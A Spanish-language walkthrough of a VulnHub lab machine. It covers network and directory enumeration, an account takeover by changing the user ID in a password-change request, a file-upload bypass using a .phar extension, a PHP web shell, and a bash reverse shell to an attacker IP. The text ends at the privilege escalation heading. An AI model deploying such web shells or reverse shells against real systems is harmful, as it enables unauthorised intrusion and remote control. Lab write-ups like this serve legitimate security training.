










- Tags: #WebEnumeration #AbusoIDdeUsuario #AbusoDeFileUpload #VulnHub #linux 
_______
## Reconocimiento 
_____
al ser una maquina de VulnHub la cual desplegamos desde una maquina virtual tenemos que hacer un escaneo con **Arp-scan** de nuestra red para saber la **direccion IP** de la maquina victima y proceder con **Nmap**.

```arp-scap
arp-scan --localnet
```
_____

____
```nmap
namp -p- --open -sS --min-rate 5000 -vvv -n -Pn <direccionIP> -oG allPort
```
____
luego de realizar el escaner con nmap nos arroja que tenemos tanto el puerto **22 (ssh)** como el puerto **80 (http)**, procedemos a realizar el escaner con los scripts de reconocimiento de nmap para finalmente ver a que nos enfrentamos.
____
```
nmap -p 22,80 <direccion_IP> -sCV -oN targete
```
___

____
como resultado nos muestra que se esta corriendo en la web, no es mas que apache y ademas tenemos su versión, procedemos a verificar la web.

la pagina tiene el siguiente panel de login.
____

___
procedemos a registrarnos e ingresar, se nos muestra lo siguiente.
_____

___
al parecer tenemos dos apartados que nos permite modificar los datos de nuestra cuenta, pero hay algo que llama la atención al instante y es que nuestro usuario esta identificado con el id 2, lo que significa que deben de haber mas usuarios.

pero antes de hacer algo mas, tratemos de enumerar directorios u otros subdominios a ver que vemos.

para eso usaremos la herramienta gobuster con un diccionario de secList.
______
```gobuster
gobuster dir -u http://<URL> o <DireccionIP>/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
____
aplicando el siguiente reconocimiento obtenemos que.
___

____
todos son directorios validos los cuales podemos probar en la URL.

volviendo a lo que antes identificamos y es que el usuario se identifica por un ID, probemos capturar la petición de cambio de clave a ver que tal, todo esto utilizando BurpSuite.
___

____
intentamos colocar en id el numero 1 y en clave colocamos una nueva a ver si funciona.
___

____
y podemos observar que nos dice clave actualizada, ahora intentamos ingresar como admin.
____

_____
con las credenciales admin y la clave que cambiamos desde BurpSuite ingresamos como admin de la pagina. Se observa que tiene un apartado de subida de archivo, la cual probamos y admite solo JPG, PNG Y GIF pero no hay que fiarse.

con BurpSuite haremos un ataque tipo sniper para poder ver que exenciones php son validas y si las hay.
______

___
cualquier otra extensión php sirve, en este caso es nos funciona el .phar, asi que haremos nuestros archivo cargado con una reverse shell que nos permitirá ejecutar comando.
___
```php
<?php
 echo "<pre>" . shell_exec(&_GET['cmd']) . "</pre>";
?>
```
___
esa sera la estructura de nuestro archivo el cual tendrá como nombre **reverse.phar** y es el archivo que cargaremos.

una vez cargado el archivo podremos verlo en el apartado de `http://<direccionIP>/upload/archivo.phar` y de ahí ejecutar nuestro codigo. 
____

____
y es así que podremos entablar una reverse shell con nuestra maquina de atacante.

con bash: `bash -c "bash -i >%26 /dev/tcp/192.168.0.103/443 0>%261"`

y es así como nos conectamos a la maquina victima.
____
## Escalada de Privilegios 
_____

